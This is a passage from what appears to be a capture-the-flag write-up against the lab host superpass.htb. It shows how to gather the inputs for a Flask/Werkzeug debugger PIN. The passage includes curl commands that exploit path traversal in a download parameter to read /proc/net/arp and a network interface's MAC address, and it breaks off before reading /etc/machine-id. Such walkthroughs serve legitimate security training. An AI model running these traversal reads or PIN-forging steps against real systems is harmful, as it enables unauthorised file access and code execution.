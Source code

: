 My script looks like:



    probably_public_bits = [
        'www-data',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
    ]



#### Private Bits

The next section is the list `private_bits`:



    private_bits = [
        '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
        'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
    ]



I'm going to switch to `curl` here for ease. I'll need to use
`--path-as-is` so that `curl` doesn't undo the `../`, and I'll need the
cookie, which I'll save in an env variable. I'll need to get the MAC
address. I can find that at `/sys/class/net/[device]/address`. To get
the device name, I'll pull `/proc/net/arp`:



    oxdf@hacky$ cookie="session=.eJwlzj0OwjAMQOG7ZGaIncQ_vUwVx7ZgbemEuDuV2N709H3Knkecz7K9jyseZX952cpMQegkZGndnMfEfqdWlYSIBPeqidw6rWU652CvyUiGzVFMqVWjlg6hstLMg5ciopvyjCHV2To1WUiTnIj53g_oQLEEpNyQ64zjr9Hy_QEv9zBO.ZMQS_Q.Z4LXfnoQS3utplGKkJ9ScRF8EMY"
    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../proc/net/arp -s --path-as-is -b $cookie
    IP address       HW type     Flags       HW address            Mask     Device
    10.10.10.2       0x1         0x2         00:50:56:b9:1d:c2     *        eth0



The device is `eth0`, which I'll use to get the MAC:



    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../sys/class/net/eth0/address -s --path-as-is -b $cookie
    00:50:56:b9:48:b5



The script needs this as an int, which I can use Python to convert:



    >>> int("00:50:56:b9:48:b5".replace(':',''), 16)
    345052367029



The next item is a combination of a couple files. First, I need
`/etc/machine-id`:
